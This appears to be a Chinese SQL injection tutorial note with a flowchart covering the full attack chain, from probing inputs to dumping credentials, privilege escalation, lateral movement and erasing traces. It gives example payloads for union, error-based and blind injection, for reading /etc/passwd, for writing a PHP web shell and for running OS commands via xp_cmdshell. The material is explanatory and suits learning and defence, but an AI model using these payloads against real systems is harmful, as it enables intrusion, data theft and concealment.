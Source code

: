 # SQL注入完整攻击流程图

```
graph TD
A[开始] --> B{目标识别}
B -->|Web应用| C[注入点探测]
C --> D[参数篡改测试]
D --> E{是否报错?}
E -->|是| F[确定注入类型]
E -->|否| G[盲注检测]
G --> H{页面差异/延迟?}
H -->|是| I[确认盲注存在]
H -->|否| J[结束检测]

F --> K[字符型/数字型判断]
K --> L{是否有回显?}
L -->|是| M[联合查询注入]
L -->|否| N[选择注入方式]
N --> O[报错注入]
N --> P[布尔盲注]
N --> Q[时间盲注]

M --> R[字段数探测]
R --> S[确定显示位]
S --> T[获取数据库信息]
T --> U[数据库版本/用户]
U --> V[爆库名]

P --> W[构造布尔表达式]
W --> X[逐位数据猜测]
Q --> Y[构造时间延迟]
Y --> Z[基于响应的推断]

O --> AA[触发报错函数]
AA --> AB[提取错误信息]

V --> AC[爆表名]
AC --> AD[爆列名]
AD --> AE[拖取数据]

AE --> AF{权限提升?}
AF -->|是| AG[系统命令执行]
AF -->|否| AH[数据导出]

AG --> AI[数据库提权]
AI --> AJ[OS交互]
AJ --> AK[横向移动]

AH --> AL[数据整理分析]
AK --> AL
AL --> AM[清理痕迹]
AM --> AN[攻击完成]

style C fill:#f9f,stroke:#333
style I fill:#bbf,stroke:#555
style T fill:#f96,stroke:#900
style AE fill:#6f9,stroke:#090
style AG fill:#f99,stroke:#c00
```

![Snipaste_2025-04-19_12-51-46](./../../png/SQL%E6%B3%A8%E5%85%A5%E5%AE%8C%E6%95%B4%E6%94%BB%E5%87%BB%E6%B5%81%E7%A8%8B%E5%9B%BE/Snipaste_2025-04-19_12-51-46.png)

![Snipaste_2025-04-19_12-52-13](./../../png/SQL%E6%B3%A8%E5%85%A5%E5%AE%8C%E6%95%B4%E6%94%BB%E5%87%BB%E6%B5%81%E7%A8%8B%E5%9B%BE/Snipaste_2025-04-19_12-52-13.png)

## 流程图说明

1. **目标识别**：确定存在数据库交互的Web应用

2. **注入点探测**：

   测试URL参数/表单输入

   添加`'`、`"`、`\`等特殊字符

3. **错误判断**：

   直接报错：快速确认注入类型

   无报错：进入盲注检测流程

4. **注入方式选择**：

   联合查询注入（有回显）

   ```sql
   UNION SELECT 1,@@version,3
   ```

   报错注入（显示错误信息）

   ```sql
   AND updatexml(1,concat(0x7e,version()),1)
   ```

   布尔盲注（页面内容差异）

   ```sql
   AND ascii(substr(database(),1,1))>100
   ```

   时间盲注（响应延迟）

   ```sql
   AND IF(1=1,SLEEP(5),0)
   ```

5. **信息收集阶段**：

   获取数据库版本：`@@version`

   列出数据库：`information_schema.schemata`

   爆表名：`information_schema.tables`

   爆列名：`information_schema.columns`

6. **数据提取**：

   常规数据获取：

   ```sql
   UNION SELECT user,password FROM users
   ```

   大段数据获取：

   ```sql
   #用于从服务器文件系统中读取指定文件的内容，并以字符串形式返回
   LOAD_FILE('/etc/passwd')
   ```

7. **权限提升**：

   数据库写文件：

   ```sql
   #可以将查询结果写入服务器上的文件中
   INTO OUTFILE '/var/www/shell.php'
   ```

   执行系统命令：

   ```sql
   #在 MySQL 中，默认情况下并不提供类似 MSSQL 的 xp_cmdshell 功能来直接执行系统命令。 可以通过安装用户自定义函数（UDF）来实现类似的功能。
   MSSQL: xp_cmdshell('whoami')
   #sys_exec() 是由第三方插件 lib_mysqludf_sys 提供的函数，允许在 MySQL 中执行系统命令
   MySQL: sys_exec()
   ```

8. **横向移动**：

   内网扫描
   
   密码爆破
   
   漏洞利用